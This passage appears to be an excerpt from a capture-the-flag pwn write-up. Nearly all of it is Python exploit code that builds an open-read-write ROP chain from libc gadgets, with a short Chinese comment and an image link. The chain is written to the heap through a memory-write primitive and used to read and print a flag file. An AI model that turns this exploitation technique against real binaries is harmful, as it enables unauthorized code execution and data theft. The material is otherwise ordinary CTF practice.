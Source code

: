    ```python
   pop_rdi_ret=libc_base+0x0000000000026542
   pop_rdx_ret=libc_base+0x000000000012bda6
   pop_rax_ret=libc_base+0x0000000000047cf8
   pop_rsi_ret=libc_base+0x0000000000026f9e
   addsp48_addr = libc_base+0x000000000008cfd6
   ret=libc_base+0x000000000002535f
   
   open_addr = libc.sym['open']+libc_base
   read_addr = libc.sym['read']+libc_base
   write_addr = libc.sym['write']+libc_base    
   syscall = read_addr+15
   flag = heap_base+0x6e0
   
   # open(0,flag)
   orw =p64(pop_rdi_ret)+p64(flag)
   orw+=p64(pop_rsi_ret)+p64(0)
   orw+=p64(pop_rax_ret)+p64(2)
   orw+=p64(syscall)
   # orw =p64(pop_rdi_ret)+p64(flag)
   # orw+=p64(pop_rsi_ret)+p64(0)
   # orw+=p64(open_addr)
   
   # read(3,heap+0x1010,0x30) 
   orw+=p64(pop_rdi_ret)+p64(3)
   orw+=p64(pop_rsi_ret)+p64(heap_base+0x1200)
   orw+=p64(pop_rdx_ret)+p64(0x30)
   orw+=p64(read_addr)     
   
   # write(1,heap+0x1010,0x30)
   orw+=p64(pop_rdi_ret)+p64(1)
   orw+=p64(pop_rsi_ret)+p64(heap_base+0x1200)#存放地址0x50
   orw+=p64(pop_rdx_ret)+p64(0x30)
   orw+=p64(write_addr)
   
   #往malloc上写数据
   backdoor(b"aaaa")
   backdoor(p64(addsp48_addr))
   add(1,orw)
   p.interactive()
   ```
   

![image-20240725170732001](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407251707127.png)

